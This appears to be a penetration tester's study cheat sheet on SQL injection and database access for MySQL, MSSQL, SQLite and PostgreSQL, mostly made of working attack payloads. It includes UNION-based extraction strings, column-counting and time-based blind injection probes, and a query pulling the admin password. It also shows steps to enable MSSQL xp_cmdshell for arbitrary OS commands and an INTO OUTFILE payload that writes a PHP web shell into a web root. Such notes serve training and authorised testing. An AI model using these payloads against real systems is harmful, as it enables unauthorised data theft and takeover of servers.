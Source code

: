 ```yaml
---
layout: blank
---
```


https://pentestmonkey.net/category/cheat-sheet/sql-injection
### Enumeration/Discovery
- General fuzzing can help, but try to think from the developer's perspective when coming up with the example query
- Matching on numbers may not use single/double quotes at all
	- `SELECT * FROM rooms WHERE room_id = 1;` uses no quotes

### MySQL
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`

### MSSQL
- Database management built into Windows
- Command-line tool `SQLCMD` allows SQL queries through cmd
- Kali has `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {username}@{host IP} -windows-auth`
		- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
			- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; 
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
			- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
	- `-windows-auth` forces the use of NTLM auth (rather than Kerberos)
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema

### SQLite
- Use `sqlitebrowser` for viewing sqlite databases

### PostgreSQL
- Use `psql` for to connect to PostgreSQL databases

### SQL Exploitation
- Techniques:
	- Can trail SQL injection queries with `//` to provide visibility on the payload and protect against whitespace truncation
	- Can use `IN` to inject arbitrary second command:
		- `' OR 1=1 IN (SELECT version()) -- //`
		- `' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`
- Enumerating tables
	- `' UNION SELECT table_name FROM information_schema.tables -- //`
	- `' UNION SELECT column_name FROM information_schema.columns WHERE table='{table_name} -- //`
- UNION-based Payloads
	- UNION query must include same number of columns as original
		- To find number of columns, use ORDER BY
			- `' ORDER BY 1 -- //`
			- Orders results by a specific column, so it will fail when selected column doesn't exist (iterate through column numbers to find max columns)
		- Can also do `' UNION SELECT null, null, null, ...` until no error
		- If we make the original input invalid, then pass a valid union select, we can see where each piece of data ends up
			- `9999 union select 1,2,3,4,5`
	- Data types need to be compatible between each column
	- E.g. `$query = "SELECT * FROM customers WHERE name LIKE '".$_POST["input"]."%'";`
		- Used `' ORDER BY 5 -- //` and `' ORDER BY 6 -- //` to determine 5 columns
		- Thus payload becomes `%' UNION SELECT null, null, database(), user(), @@version -- //`, filling unneeded columns (including ID column 1) with null
- Blind injection
	- Can use booleans alongside sleep commands to verify existence of data/characters
		- `' AND IF (1=1, sleep(3), 'false') -- //` 
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
